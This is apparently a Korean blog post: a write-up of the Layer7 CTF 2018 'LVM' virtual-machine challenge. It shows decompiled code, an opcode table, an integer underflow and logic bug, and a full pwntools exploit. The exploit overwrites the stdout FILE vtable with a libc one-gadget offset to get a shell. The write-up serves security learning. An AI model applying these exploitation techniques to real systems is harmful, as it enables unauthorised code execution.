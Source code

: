 ```yaml
---
title: Layer7 CTF 2018 - LVM
date: 2018-09-21 23:19:53
categories:
- VM
- CTF write up
tags:
- File Stream Oriented Programming
- Intger Underflow
---
```


# 2018 Layer7 CTF - LVM

```c
void __usercall __noreturn main(__int64 a1@<rdi>, char **a2@<rsi>, char **a3@<rdx>, _QWORD *a4@<r12>){
  _QWORD *addr; // rbx
  signed int v5; // er8
  addr = init_calloc();
  init_p();
  if ( !input(addr) )
    exit(-1);
  vm(addr, v5, a4);
  start(addr);}
```

드디어 풀었다... 대회때 풀진 않았고 VM문제 풀어 보라는 NextLine 님의 말을 따라.. 풀었다.

머리가 vm이 된 것 같은 기분을 경험했다.. 솔버 2명일 때 부터 알아봤어야 했는데..

기법을 새로 배운건 없었지만 생각을 많이 할 수 있어서 좋았다. VM문제도 처음 풀어봐서 좋았고!

립찔이에게 최적화 레벨 3은 너무 힘들었다... LABEL과 goto 문의 향연.. 



| operator  | op1 flag | op1 value      | op2 flag | op2 value                 |
| --------- | -------- | -------------- | -------- | ------------------------- |
| 0x1-0x7,9 | 0x0      | op1 = reg[idx] | 0x0      | op2 = reg[idx], pflag = 1 |
|           |          |                | 0x1      | op2 = idx, pflag = 0      |
|           |          |                | 0x2      | op2 = mem[idx], pflag =1  |
|           | 0x2      | op1 = mem[idx] | 0x0      | op2 = reg[idx], pflag = 1 |
|           |          |                | 0x1      | op2 = idx, pflag = 0      |
|           |          |                | 0x2      | op2 = mem[idx], pflag =1  |
| 0x0,8,a   | 0x1      | op1 = reg[idx] |          |                           |

if pflag set) *op1 = *op1 [operator] *op2
	unset) *op1 = *op1 [operator] op2

op2 flag 위치와 opcode 길이는 op1 flag 마다 바뀐다.



```c
        if ( mem_idx > 0xFFF )                  // integer underflow
        {
          puts("Invalid memory.");
          exit(-3);
        }
		op1 = (cpu[18] + mem_idx);
```

여기서 Integer Underflow가 터진다. 이거 찾는 게 힘들었다..ㅠㅠ



```c
          if ( mem_idx_2 > 4095 )
          {
            puts("Invalid memory.");
            flag = 1;
          }
```

여기선 로직 버그가 있다. 딱봐도 수상해보인다.



```python
from pwn import *

w = process("./lvm")

offset = 0x3c56a3 - 0xf02a4

# set op2=0x602010 
payload = "\x09\x00\x03\x01"+p64(0x602010)

# set cpu[18] = *0x602010 using memory logic bug, integer underflow
payload += "\x09\x02\xe0\xef\xff\xff\x02".ljust(11,"\xff")

# change vtable with operator
payload += "\x02\x02\x08\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x10\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x18\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x20\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x28\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x30\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x38\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x40\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x48\x00\x00\x00\x01"+p64(offset+1)

payload += "\x01\x02\xd8\x00\x00\x00\x01"+p64(0x1f40-0x8)

w.sendline(payload)
w.interactive()

```

다른 VM 문제들 보면 함수로 이쁘게 짜던데... 그러면 더 더러워 질 것 같아서 그냥 썼다.

로직 버그 쓰기위해 op2 를 써놓고 로직버그랑 인티저 언더플로우 이용해서 cpu[18]에 stdout 주소를 써준다.

이러면 stdout file struct 에 값을 쓸 수 있게 되는데, 여기서 어딘가의 libc 주소가 8개쯤 써있다.

여기에 연산 이용해서 one_shot offset 으로 맞춰준다.

vtable을 이 주소로 덮어주면 쉘이 따인다. 짜잔

vtable 말고 exit handler 나 dl open hook을 덮으면 된다는 데 그건 따로 포스팅해야지

